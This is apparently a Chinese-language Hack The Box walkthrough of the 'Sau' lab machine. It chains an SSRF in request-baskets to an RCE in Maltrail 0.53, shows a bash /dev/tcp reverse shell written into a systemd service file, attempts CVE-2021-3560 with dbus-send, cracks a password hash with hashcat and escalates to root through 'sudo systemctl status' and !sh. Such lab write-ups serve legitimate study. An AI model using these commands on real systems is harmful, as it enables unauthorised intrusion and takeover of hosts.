htb | sau

使用nmap扫描端口

```
nmap -sV -sC -v -oN Sau 10.10.11.224
```

```
# Nmap 7.93 scan initiated Mon Dec 25 08:56:25 2023 as: nmap -sV -sC -v -oN Sau 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (2.4s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 25 Dec 2023 01:00:51 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 25 Dec 2023 00:59:27 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 25 Dec 2023 00:59:38 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=12/25%Time=6588D3F3%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Mon,\x2025\x20Dec\x2
SF:02023\x2000:59:27\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Mon,\x2025\x20Dec\x2
SF:02023\x2000:59:38\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Mon,\x2025\x20Dec\x202023\x2001:00:51\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 25 09:02:57 2023 -- 1 IP address (1 host up) scanned in 392.40 seconds

```


访问55555端口发现安装了request-baskets 版本为1.2.1



才爆出request-baskets 1.2.1 ssrf 服务端请求伪造


```
{
  "forward_url": "http://127.0.0.1:80",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```





访问http://10.10.11.224:55555/qiang




在页面中发现是Maltrail v0.53版本


在谷歌搜索相关exp

```
Maltrail v0.53 exploit
```



 **[Maltrail-v0.53-漏洞利用](https://github.com/spookier/Maltrail-v0.53-Exploit)**有RCE漏洞

```
git clone https://github.com/spookier/Maltrail-v0.53-Exploit.git
cd Maltrail-v0.53-Exploit
python exploit.py 10.10.16.16 55566 http://10.10.11.224:55555/qiang
```

```
nc -lnvvp 55566
```




查看flag是否有sudo权限

```
ec332b88b8cb2824b742013561c14be1
```



搜索sudo systemctl提权

编写一个service文件来被systemctl加载

```
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/bash -i > /dev/tcp/10.10.16.16/5566 0>&1 2<&1"
[Install]
WantedBy=multi-user.target' > /tmp/reshell.service
```

但是需要本用户密码，由于我是通过rce反弹的shell没有用户密码

使用python开启临时服务上传linpeas.sh查看本机有什么信息

发现有[CVE-2021-3560](https://github.com/hakivvi/CVE-2021-3560)




```
git clone https://github.com/hakivvi/CVE-2021-3560.git          
cd CVE-2021-3560 
gcc -Wall exploit.c -o exploit $(pkg-config --libs --cflags dbus-1) 
```


编译报错Package 'dbus-1', required by 'virtual:world', not found使用apt安装libdbus-1-dev解决

```
apt install libdbus-1-dev
```



目标机报错无法提权

手搓

```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:pwn string:"pwn your host" int32:1

0.00user 0.00system 0:00.02elapsed 22%CPU (0avgtext+0avgdata 2876maxresident)k


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:pwn string:"pwn your host" int32:1 & sleep 0.002s ; kill $!


openssl passwd -5 qwertyuiop


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'passwd' string:GoldenEye & sleep 0.008s ; kill $!
```



手撮失败，sys返回的值为0.002s，改成0.001和改成0.002都创建不了pwn用户，试了无数次，换个方向。

maltrail配置文件在/opt/maltrail/maltrail.conf下发现一串hash

```
admin:9ab3cd9d67bf49d01f6a2e33d0bd9bc804ddbe6ce1ff5d219c42624851db5dbc:0:
```


使用hsah-identifier验证一下hash类型:SHA-256,Haval-256



使用hashcat爆破hash值为：changeme!

```
hashcat -m 1400 hash  /usr/share/wordlists/rockyou.txt
```



试了一下用root和puma用户SSH根本就不行，等级为easy的提权费了九牛二虎之力

在其他wp看到这篇提权文章[systemctl提权](https://gtfobins.github.io/gtfobins/systemctl/)等服务状态显示完毕之后输入!sh就提权成功了，为什么会用trail服务因为sudo-l只有这个服务才能不用输入密码。。。


```
sudo systemctl  status trail.service
!sh
```

提权成功



```
abb964dd94c0f8cece8f25814b83c15f
```

